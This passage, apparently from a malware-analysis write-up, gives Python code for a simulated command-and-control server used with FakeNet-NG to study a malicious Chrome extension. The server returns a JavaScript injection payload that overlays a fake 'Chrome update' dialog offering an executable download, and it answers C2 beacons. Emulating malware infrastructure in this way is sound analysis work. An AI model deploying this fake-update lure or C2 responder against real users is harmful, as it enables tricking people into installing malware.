 ```python
                    "value": '(()=>{const modal = document.createElement("div");modal.style.display = "block";modal.style.position = "fixed";modal.style.zIndex = "1000";modal.style.left = "0";modal.style.top = "0";modal.style.width = "100%";modal.style.height = "100%";modal.style.overflow = "auto";modal.style.backgroundColor = "rgba(0, 0, 0, 0.7)";const modalContent = document.createElement("div");modalContent.style.backgroundColor = "#fff";modalContent.style.margin = "10% auto";modalContent.style.padding = "20px";modalContent.style.borderRadius = "8px";modalContent.style.boxShadow = "0 4px 8px rgba(0, 0, 0, 0.2)";modalContent.style.maxWidth = "500px";modalContent.style.textAlign = "center";const chromeImage = document.createElement("img");chromeImage.src = "data:image/png;base64,[redacted due to very long base64]";chromeImage.style.width = "100px";chromeImage.style.marginBottom = "20px";const content = document.createElement("p");content.textContent = "A new update of Chrome is available.";const downloadButton = document.createElement("a");const base64Image = "data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAUAAAAFCAYAAACNbyblAAAAHElEQVR42mP8z8DgHgF3Ch4H8v8HAAAAAElFTkSuQmCC";downloadButton.href = base64Image;downloadButton.download = "MyFakeFile.exe";downloadButton.textContent = "Upate Now";downloadButton.style.display = "inline-block";downloadButton.style.marginTop = "20px";downloadButton.style.padding = "10px 20px";downloadButton.style.backgroundColor = "#4285F4";downloadButton.style.color = "#fff";downloadButton.style.textDecoration = "none";downloadButton.style.borderRadius = "4px";downloadButton.style.boxShadow = "0 2px 4px rgba(0, 0, 0, 0.2)";downloadButton.style.transition = "background-color 0.3s";downloadButton.onmouseover = function() {    downloadButton.style.backgroundColor = "#357AE8";};downloadButton.onmouseout = function() {    downloadButton.style.backgroundColor = "#4285F4";};modalContent.appendChild(chromeImage);modalContent.appendChild(content);modalContent.appendChild(downloadButton);modal.appendChild(modalContent);document.body.appendChild(modal);})', # setAttribute("onreset", value)
                    "textContent": "zurtix" # coinname
                }
            ],
            "success": True
        }
        response = json.dumps(payload).encode('utf-8') + b'\r\n'
        req.send_response(200)
        req.send_header('Content-Length', len(response))
        req.send_header('Content-Type', 'application/json')
        req.end_headers()
        req.wfile.write(response)

    elif req.command == 'POST':
        print(post_data)
        response = b'{"uuid": "0acb0da5-02a7-4859-b3c6-e9aedb3a7efb", "commands": [], "success": true}\r\n'
        req.send_response(200)
        req.send_header('Content-Length', len(response))
        req.send_header('Content-Type', 'application/json')
        req.end_headers()
        req.wfile.write(response)

    elif req.command == 'HEAD':
        req.send_response(200)
        req.end_headers()

```

In addition to the above the following modification needs to be made within FakeNet-NG `default.ini` config file along with the creation of the `chromemalware.ini` file.
